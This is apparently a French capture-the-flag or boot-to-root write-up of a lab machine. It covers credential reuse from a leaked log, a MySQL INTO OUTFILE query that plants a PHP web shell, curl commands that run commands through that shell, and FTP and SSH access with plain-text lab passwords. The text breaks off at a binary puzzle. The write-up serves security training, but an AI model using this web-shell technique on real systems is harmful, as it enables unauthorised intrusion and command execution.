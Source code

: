 Utilisation de dirbuster pour scan le site et trouver des dossiers


# Forum

- https://192.168.1.25/forum/index.php?id=6:
```
 Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
```

user: `lmezard`
password: `!q\]Ej?*5K5cy*AJ`

Connection pour le forum
Dans les parametres on a l'adresse mail: `laurie@borntosec.net`


# Webmail
url: `https://192.168.1.25/webmail/src/webmail.php`
user: `laurie@borntosec.net`
password: `!q\]Ej?*5K5cy*AJ`

Un des mail donne l'acces a la base de donnees:
```


Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

# PHPMyAdmin

url: `https://192.168.1.25/phpmyadmin`
user: `root`
password: `Fg-'kKXBj87E:aJ$`

## Inclusion SQL

```
SELECT "<?php system($_GET['c']); ?>" into outfile "/var/www/forum/templates_c/dd.php"
```

On peut maintenant lancer des commandes avec curl:
`curl -k https://192.168.1.25/forum/templates_c/dd.php?c=<command>`

L'option k permet de ne pas verifier le certificat.

Pour les espaces on utilise %20

Dans home on peut seulement acceder a LOOKATME

A l'interieur on a un fichier password:
`lmezard:G!@M6f4Eatau{sF"`

C'est identifiant correspondent a ceux du serveur ftp

# FTP

connection: `ftp <ip>`
user: `lmezard`
password: `G!@M6f4Eatau{sF"`


En lancant la commande `ls` on trouve deux fichier: README et fun

On utilise get pour recuperer les deux fichiers



# fun

Le fichier README nous indique qu'une fois la solution trouve on aura le mot de passe pour laurie pour la connection ssh

En lancant la commande `file` sur le fichier fun on trouve que c'est une archive tar:

```
fun: POSIX tar archive (GNU)
```

`tar -xf fun`

Une fois cette commande faite, on peut trouver un dossier contenant beaucoup de fichier.


`grep "main" *`

BJPCP.pcap


```
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
}
```
En utilisant: `grep "" *`

getme1() -> 331ZU.pcap -> file5 donc file6 -> APM1E.pcap -> `I`
getme2() -> G7Y8I.pcap -> file37 donc file38 -> ZPY1Q.pcap -> `h`
getme3() -> B62N4.pcap -> file56 donc file57 -> ECOW1.pcap -> `e`
getme4() -> 0T16C.pcap -> file115 donc 116 -> 7DT5Q.pcap -> `a`
getme5() -> 4KAOH.pcap -> file368 donc file369 -> T7VV0.pcap -> `r`
getme6() -> 91CD0.pcap -> file521 donc file522 -> J5LKW.pcap -> `t`
getme7() -> 32O0M.pcap -> file736 donc file737 -> T44J5.pcap -> `p`
getme8() -> `w`
getme9() -> `n`
getme10() -> `a`
getme11() -> `g`
getme12() -> `e`


Resultat: `Iheartpwnage`

On le chiffre maintenant en sha-256: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`

On arrive bien a se connecter en ssh avec laurie.


# ssh

user: `laurie`
password: `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4`


On trouve dans son repertoire deux fichiers: README et bomb.

On les telecharge avec scp

On verifie l'historique mais on ne trouve rien.

Le readme nous donne le defi de trouver le mot de passe de thor

On voit en utilisant `nm` que le programme appel system et getenv. Il utilise aussi les sockets


















